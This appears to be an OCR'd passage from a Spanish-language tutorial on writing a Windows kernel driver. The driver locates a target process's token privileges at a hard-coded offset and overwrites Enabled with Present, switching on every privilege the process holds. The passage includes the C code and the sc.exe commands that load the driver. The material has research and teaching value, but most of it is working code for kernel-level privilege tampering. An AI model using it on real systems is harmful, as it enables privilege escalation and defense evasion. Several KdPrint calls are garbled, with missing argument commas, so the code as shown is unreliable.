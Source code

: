 Y con esta información accederemos al campo privileges que ya habíamos visto que era el `offset 0x40`

Ahora tan solo tenemos que asignar a los valores `present` a los `enabled`

```c
PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

pSepToken->Enabled = pSepToken->Present;

KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));
```

Compilamos la solución y cargamos el driver

```
sc.exe stop KMDFDriver1
sc.exe delete KMDFDriver1
sc.exe create KMDFDriver1 type=kernel start=demand binpath="C:\Users\Jose\source\repos\KMDFDriver1\x64\Debug\KMDFDriver1.sys"
sc.exe start KMDFDriver1
```

Y vemos como los permisos del proceso han cambiado

![alt text](images/image-15.png)

```c 
#include <ntifs.h>

#define DRIVER_PREFIX "GetFullPrivsDrv: "
#define DEVICE_PATH L"\\Device\\GetFullPrivs"
#define SYMLINK_PATH L"\\??\\GetFullPrivs"

//
// Global Variables
//
ULONG g_PrivilegesOffset = 0x40u;
UINT32 processPid = 2524;

//
// Enum definition
//

//
// Struct definition
//
typedef struct _SEP_TOKEN_PRIVILEGES
{
	ULONGLONG Present;
	ULONGLONG Enabled;
	ULONGLONG EnabledByDefault;
} SEP_TOKEN_PRIVILEGES * PSEP_TOKEN_PRIVILEGES;
```